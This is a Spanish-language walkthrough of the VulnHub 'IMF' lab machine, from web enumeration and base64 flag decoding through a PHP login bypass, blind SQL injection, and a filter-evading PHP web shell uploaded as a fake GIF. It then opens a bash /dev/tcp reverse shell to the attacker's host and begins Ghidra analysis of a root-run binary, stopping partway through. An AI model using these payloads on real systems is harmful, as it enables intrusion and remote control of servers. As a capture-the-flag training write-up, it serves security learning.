# Guía paso a paso de explotación:

## Información general

- **Nombre**: IMF
- **Plataforma**: VulnHub
- **Nivel**: Intermedio
- **IP**: (Asignada por DHCP/local, puede variar)
- **Objetivo**: Obtener acceso root a través de enumeración web y explotación de vulnerabilidades.

---

## Reconocimiento

Acción:

```bash
nmap -p- --open -sS -n -Pn --min-rate 5000 -v 192.168.1.67 -oG allPorts
nmap -sCV 192.168.1.67 -oN targeted

```

Resultado:

```bash

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: IMF - Homepage
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 00:0C:29:55:25:05 (VMware)
```

Explicación: solo vemos un puerto abierto, el 80, el cual aloja un servicio web

Acción:

```bash
whatweb http://192.168.1.67
```

Resultado:

```bash
http://192.168.1.67 [200 OK] Apache[2.4.18], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[192.168.1.67], JQuery[1.10.2], Modernizr[2.6.2.min], Script, Title[IMF - Homepage], X-UA-Compatible[IE=edge]
```

Explicación: vemos algunos detalles, como que es un sistema Linux-Ubuntu y que tiene una versión de JQuery bastante desactualizada (1.10.2)

Al acceder al servicio web vemos la siguiente página web:



En la pestaña de 'Contact Us' vemos 3 posibles usuarios



Acción:

```bash
curl -s http://192.168.1.67/contact.php
```

Resultado:

```bash
<!-- flag1{YWxsdGhlZmlsZXM=} -->
```

Acción:

```bash
echo "YWxsdGhlZmlsZXM=" | base64 -d; echo
```

Resultado:

```bash
allthefiles
```

Explicación: hemos realizado un [[Curl) para obtener el código fuente, y hemos encontrado dos apartados reveladores. El primero esta línea que pone 'flag1' la cual al pasar de base64 obtenemos ' allthefiles' 

Resultado:

```bash
        <script src="js/ZmxhZzJ7YVcxbVl.js"></script>
        <script src="js/XUnRhVzVwYzNS.js"></script>
        <script src="js/eVlYUnZjZz09fQ==.min.js"></script>
```

Explicación: además vemos estas tres cadenas que si las juntamos y pasamos por base64 obtenemos

Acción:

```bash
echo ZmxhZzJ7YVcxbVlXUnRhVzVwYzNSeVlYUnZjZz09fQ== | base64 -d; echo
```

Resultado:

```bash
flag2{aW1mYWRtaW5pc3RyYXRvcg==}
```


Acción:

```bash
echo aW1mYWRtaW5pc3RyYXRvcg== | base64 -d; echo

```

Resultado:

```bash
imfadministrator
```

Explicación: tenemos otra pista con ' imfadministrator'

---

## Explotación

Acudiendo a esta última ruta o endpoint vemos una página de autentificación. Al probar usuarios de testeo, la página revela que el usuario no es válido, pero al probar con 'rmichaels' vemos que es la contraseña lo que no es correcto, por lo que tenemos una potencial vía de ataque por Fuera Bruta



Enviamos las petición a [[BurpSuite) y en nuestra data que es `user=rmichaels&pass=test` añadimos `[]` así: `user=rmichaels&pass[]=test`. Le damos a 'Forward' para que la petición fluya y vemos otra pista



Además de la pista en forma de flag en base64 (resultado = continueTOcms) tenemos el acceso a un nuevo endpoint







Acción:

```url
http://192.168.1.67/imfadministrator/cms.php?pagename=home'
```

Resultado:

```bash
Warning: mysqli_fetch_row() expects parameter 1 to be mysqli_result, boolean given in /var/www/html/imfadministrator/cms.php on line 29
```

Explicación: tan solo poniendo una comilla al final de la URL vemos que se nos muestra un mensaje de error, el cual nos sugiere que puede ser vulnerable a [[SQLi)


Acción:

```url
http://192.168.1.67/imfadministrator/cms.php?pagename=home' or '1'='1 
```

Resultado:

```bash
 Under Construction. 
```

Explicación: al concatenar una [SQLi](../../Bases de datos db/SQLi) vemos que ahora la página cambia y muestra otro mensaje. Esta interacción con la página nos puede hacer extraer datos de la base de datos [SQL](../../Bases de datos db/SQL) que hay por detrás


Acción:

```url
http://192.168.1.67/imfadministrator/cms.php?pagename=home' or substring(database(),1,1)='a 
```

Resultado:

```bash
 Under Construction. 
```

Acción:

```url
http://192.168.1.67/imfadministrator/cms.php?pagename=home' or substring(database(),1,1)='b
```

Resultado:

```bash
 Welcome to the IMF Administration. 
```

Explicación: vemos que podemos dumpear información de la base de datos, por ejemplo tiene pinta de que exista una base de datos cuyo nombre empieza por 'a' quizás de 'admin'. Vemos que la página si es un valor Booleano falso muestra 'Welcome...' y si es true muestra 'Under...' con esto podemos hacer un [[iCloudDrive/iCloud~md~obsidian/Git/Setting_Github/Documento Hacker/Machines/VulnHub/IMF/Script|Script) en python que nos permita extraer la información de la base de datos. Para ello necesitaremos arrastrar la cookie de sesión que vimos anteriormente con Burpsuite

---

Finalmente obtenemos la siguiente información:

```bash
[+] SQLI: Ataque de SQLI finaliado exitosamente
[+] Data: disavowlist,home,tutorials-incomplete,upload
```

Tenemos las diferentes rutas/pestañas que veíamos en la página web, pero además vemos una más `tutorials-incomplete`



Vemos un endpoint oculto, y muestra un QR por lo que podemos probar a explotarlo

Acción: con la herramienta `flameshot` hacemos una captura de pantalla para recortar el código QR

```bash
sleep 2; flameshot gui
```


Tras recortar visitamos la esta web que ofrece un recurso online para decodear un código qr: https://zxing.org/w/decode.jspx


Obtenemos otra pista



Acción:

```bash
echo dXBsb2Fkcjk0Mi5waHA= | base64 -d; echo
```

Resultado:

```bash
uploadr942.php
```

```url
http://192.168.1.67/imfadministrator/uploadr942.php 
```

Descubrimos nuevo endpoint que permite la subida de archivos, lo cual es peligroso ya que podemos derivarlo en una RCE-Ejecución remota de comandos y obtener una shell reverse que nos haga ganar acceso al sistema


Acción: creamos una script en php que nos permita ejecutar comandos cómodamente con el parámetro `cmd`

**Nota:** anteriormente se probó con el clásico script que usa el comando `system` pero la web mostraba que sanitizaba dicho parámetro, por lo que una forma de evadir ese filtro es de las siguientes dos formas

Forma 1

```php
<?php
  $c=$_GET['cmd'];
  echo `$c`;
?>
```

Forma 2

```php
<?php
  "system"($_GET['cmd']);
?>
```

Pasamos la cadena `system` a su valor hexadecimal

```php
<?php
  "\x73\x79\x74\x65\x6d"($_GET['cmd']);
?>
```

Cargamos el archivo php, y desde Burpsuite modificamos `Content-Type`, extensión a `.gif` (NO JPG como en la imagen) y añadimos los 'Magic Numbers' propios de un archivo Gif. Vemos que ahora muestra que el archivo se cargo 'successfully'


En Burpsuite vemos en el apartado de Response -> Petty el código fuente de la carga exitosa. Dejando ver una especie de código de registro `371cc5dcdf1a`



```url
http://192.168.1.67/imfadministrator/uploads/395a1af2f2c1.gif
```

En esta ruta se almacena nuestro archivo, el cual vemos que no interpreta el código php. por lo que podemos hacer uso del parámetro `cmd`

**Nota:** En Burpsuite lo que me funciono fue ponerlo así

```php
Content-Disposition: form-data; name="file"; filename="cmd.gif"

Content-Type: image/jpg


GIF8;

<?php
  $c=$_GET['cmd'];
  echo `$c`;
?>
```

```url
http://192.168.1.67/imfadministrator/uploads/395a1af2f2c1.gif?cmd=id
```

Y vemos que obtenemos el comando id desde la web. Ahora podemos usar un oneliner para enviarnos una Reverse Shell a nuestra sistema

```url
http://192.168.1.67/imfadministrator/uploads/0bace17f309f.gif?cmd=bash -c "bash -i >%26/dev/tcp/192.168.1.66/443 0>%261" 
```

```bash
nc -lvnp 443
```

Resultado:

```bash
listening on [any] 443 ...
connect to [192.168.1.66] from (UNKNOWN) [192.168.1.67] 58828
bash: cannot set terminal process group (1331): Inappropriate ioctl for device
bash: no job control in this shell
www-data@imf:/var/www/html/imfadministrator/uploads$ 
```

Ahora podemos hacer un tratamiento de la tty para tener una [TTY Interactiva](../../Técnicas/Tratamiento%20de%20la%20TTY/TTY%20Interactiva.md)

---

## Escalada de privilegios con Buffer Overflow 

Acción:

```bash
cat flag5_abc123def.txt 
echo YWdlbnRzZXJ2aWNlcw== | base64 -d; echo
find / -name agent 2>/dev/null
file /usr/local/bin/agent
```

Resultado:

```bash
flag5{YWdlbnRzZXJ2aWNlcw==}
agentservices
/usr/local/bin/agent
/usr/local/bin/agent: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=444d1910b8b99d492e6e79fe2383fd346fc8d4c7, not stripped
```

Explicación: Hemos localizado un archivo binario llamado `agent` en la ruta `/usr/local/bin/agent`. Al ejecutar `file` sobre este binario, vemos que es un ejecutable ELF de 32 bits, compilado para arquitectura Intel 80386, dinámicamente enlazado, y **no está ofuscado (not stripped)**. Esto significa que **aún conserva símbolos y referencias útiles para análisis**, lo que facilita un proceso de ingeniería inversa y explotación, por ejemplo, para un posible **Buffer Overflow (BOF)**. Además, el hecho de estar en una ruta accesible sugiere que puede ser ejecutado por el usuario actual (`www-data`)

Acción:

```bash
cat /etc/xinetd.d/agent
netstat -nat
```

Resultado:

```bash
# default: on
# description: The agent server serves agent sessions
# unencrypted agentid for authentication.
service agent
{
       flags          = REUSE
       socket_type    = stream
       wait           = no
       user           = root
       server         = /usr/local/bin/agent
       log_on_failure += USERID
       disable        = no
       port           = 7788
}
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:7788            0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 192.168.1.67:41924      185.125.190.81:80       ESTABLISHED
tcp        0     81 192.168.1.67:47730      192.168.1.66:443        ESTABLISHED
tcp6       0      0 :::80                   :::*                    LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
tcp6       0      0 192.168.1.67:80         192.168.1.66:59748      ESTABLISHED
```

Explicación: El archivo `/etc/xinetd.d/agent` revela que el binario `/usr/local/bin/agent` se ejecuta como un **servicio gestionado por xinetd**, corriendo como **usuario root** y escuchando en el **puerto 7788** mediante TCP (`socket_type = stream`).

La salida de `netstat` confirma que el puerto **7788 está en escucha en todas las interfaces (0.0.0.0:7788)**, lo que indica que cualquier host dentro de la red puede interactuar con ese servicio. Dado que se ejecuta con privilegios de root, y es un binario no ofuscado, esto representa un claro **vector de ataque potencial**, especialmente si presenta vulnerabilidades como un **Buffer Overflow**

Acción:

```bash
ps -faux | grep agent
nc localhost 7788
nc localhost 7788 &>/dev/null &
ps -faux | grep agent
```

Resultado:

```bash
www-data  1679  0.0  0.0  11284   988 pts/0    S+   11:28   0:00  |                           \_ grep agent
  ___ __  __ ___ 
 |_ _|  \/  | __|  Agent
  | || |\/| | _|   Reporting
 |___|_|  |_|_|    System


Agent ID : 
[1] 1688
root      1689  0.0  0.0   2192   504 ?        Ss   11:31   0:00  \_ agent
www-data  1691  0.0  0.0  11284   928 pts/0    S+   11:31   0:00  |                           \_ grep agent
```

Explicación: Al conectarnos con `nc` al puerto 7788, se inicia el servicio `agent` y aparece un mensaje que simula un sistema de reporte con solicitud de **Agent ID**, lo que indica que hay una interacción mínima requerida.

Tras lanzar la conexión con redirección a `/dev/null`, y observar los procesos nuevamente, vemos que se genera un nuevo proceso **`agent` ejecutado por root**. Esto confirma que **cada conexión al puerto lanza un proceso independiente como root**, lo que representa una **superficie de ataque crítica**, especialmente si el binario es vulnerable (por ejemplo, a un Buffer Overflow). Como el proceso está ligado a una entrada controlada (el Agent ID), podríamos intentar enviar un payload malicioso a través de esa entrada para escalar privilegios

Acción: usamos la herramienta [Ghidra](../../Herramientas/Ghidra) para aplicar ingeniería inversa hacía el binario encontrado

```bash
./ghidraRun
```

Resultado: ver [Dependencias](../../Herramientas/Ghidra/Dependencias.md)

```bash
******************************************************************
JDK 21+ (64-bit) could not be found and must be manually chosen!
******************************************************************
Enter path to JDK home directory (ENTER for dialog): /opt/jdk/jdk-21.0.1+12  # añadimos según corresponda
```

Explicación: Abrimos Ghidra para analizar el binario encontrado

Acción:

```bash
nc -lvnp 443 > agent
nc 192.168.1.66 443 < /usr/local/bin/agent
```

Resultado:

```bash
listening on [any] 443 ...
connect to [192.168.1.66] from (UNKNOWN) [192.168.1.67] 47758
❯ ls
agent
```

Explicación: nos transferimos el binario en local para poder analizarlo con [Ghidra](../../Herramientas/Ghidra)

---

`./ghidraRun`

---

## Análisis del binario con Ghidra

Después de transferir el binario `agent` a nuestra máquina local, procedemos a analizarlo con la herramienta de ingeniería inversa Ghidra.

Acción: abrimos Ghidra y seguimos los siguientes pasos:



1. **Crear nuevo proyecto**
    
    - En el menú superior seleccionamos:  
        `File > New Project...`

    - Elegimos el tipo de proyecto como **Non-Shared Project**  



2. **Seleccionamos la ruta donde queremos guardar el proyecto y lo nombramos**, por ejemplo: `BinaryAnalisis`.






3. **Importamos el binario** descargado desde la máquina objetivo:
    
    - Menú superior: `File > Import File...`
        
    - Navegamos hasta la ubicación del archivo `agent` y lo seleccionamos  





4. **Aceptamos la configuración de importación automática que Ghidra sugiere**, y una vez importado, lo abrimos.



5. **Analizamos el binario**:
    
    - Ghidra nos preguntará si queremos ejecutar el análisis del binario. Confirmamos y seleccionamos las opciones por defecto.

    - Se iniciará el proceso de desensamblado y análisis.








6. Una vez finalizado, podremos ver y navegar por las funciones desensambladas, símbolos y cadenas, que serán útiles para identificar la lógica del programa y potenciales vulnerabilidades como una mala gestión de buffer.
    



7. Con la tecla `l` podemos sustituir todos los nombres de una cadena seleccionada.

	



